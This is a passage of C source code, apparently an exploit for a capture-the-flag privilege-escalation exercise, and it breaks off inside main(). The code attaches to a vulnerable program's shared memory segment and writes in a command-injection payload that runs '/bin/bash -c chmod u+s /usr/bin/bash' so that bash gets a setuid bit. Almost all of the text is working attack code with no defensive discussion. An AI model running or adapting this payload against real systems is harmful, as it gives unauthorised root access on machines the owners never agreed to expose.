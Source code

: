 ```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <errno.h>

#define SHM_SIZE 1024
#define MAX_TRIES 100

// Given the key printed by the vulnerable program, we obtain the system's shared memory id
// then attempt to attach (with repeated tries) before writing our payload.
void inject_payload(unsigned int key) {
    int sys_shmid;
    int tries = 0;
    char *shmaddr = NULL;
    
    sys_shmid = shmget(key, SHM_SIZE, 0);
    if (sys_shmid == -1) {
        perror("[ERROR] shmget with key failed");
        return;
    }
    
    while (tries < MAX_TRIES) {
        shmaddr = shmat(sys_shmid, NULL, 0);
        if (shmaddr != (char *)-1) {
            break;
        }
        if (errno != EINVAL) {
            perror("[ERROR] shmat failed");
            return;
        }
        usleep(10000); // 10ms
        tries++;
    }
    if (shmaddr == (char *)-1) {
        fprintf(stderr, "[ERROR] Failed to attach after %d tries\n", MAX_TRIES);
        return;
    }
    printf("[DEBUG] Attached to shared memory at address: %p\n", (void*)shmaddr);
    
    char payload[SHM_SIZE];
    snprintf(payload, SHM_SIZE,
             "Leaked hash detected at 45-44-4444 > \"' ; /bin/bash -c 'chmod u+s /usr/bin/bash' # ");
    printf("[DEBUG] Injecting payload: %s\n", payload);
    
    strncpy(shmaddr, payload, SHM_SIZE - 1);
    shmaddr[SHM_SIZE - 1] = '\0';
    printf("[DEBUG] Payload injected into shared memory.\n");
    
    if (shmdt(shmaddr) == -1) {
        perror("[ERROR] shmdt failed");
    } else {
        printf("[DEBUG] Detached from shared memory.\n");
    }
}

int main(void) {
    FILE *fp;
    char buffer[1024];
    unsigned int key = 0;
```